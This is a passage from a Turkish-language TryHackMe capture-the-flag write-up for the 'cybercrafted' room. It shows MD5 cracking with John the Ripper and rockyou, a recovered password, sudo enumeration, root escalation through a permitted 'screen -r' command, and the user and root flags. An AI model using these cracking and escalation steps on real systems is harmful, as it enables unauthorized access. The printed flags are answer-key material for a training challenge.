 Bulduğumuz hashleri bir dosyaya kaydedelim ve john the ripper kullanarak hashleri kıralım.

```bash
john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (madrinch)
1g 0:00:00:01 DONE (2023-07-15 21:14) 0.8064g/s 11567Kp/s 11567Kc/s 11594KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
 Hash'i kırmayı başardık.

cybercrafted kullanıcısıyla giriş yapalım ve user bayrağını bulalım.

```bash
cybercrafted@cybercrafted:~$ ls
user.txt
cybercrafted@cybercrafted:~$ cat user.txt 
THM{b4aa20aaf08f174473ab0325b24a45ca}
cybercrafted@cybercrafted:~$
```

Sırada yetki yükseltmek kaldı.

```bash
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: 
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
cybercrafted@cybercrafted:~$ 
```

https://linuxize.com/post/how-to-use-linux-screen/

```bash
sudo /usr/bin/screen -r cybercrafted
```

Yetkimizi yükseltip root olduğumuza göre root bayrağını alabiliriz.

```bash
# whoami
root
# ls    
root.txt
# cat root.txt
THM{8bb1eda065ceefb5795a245568350a70}
# 
```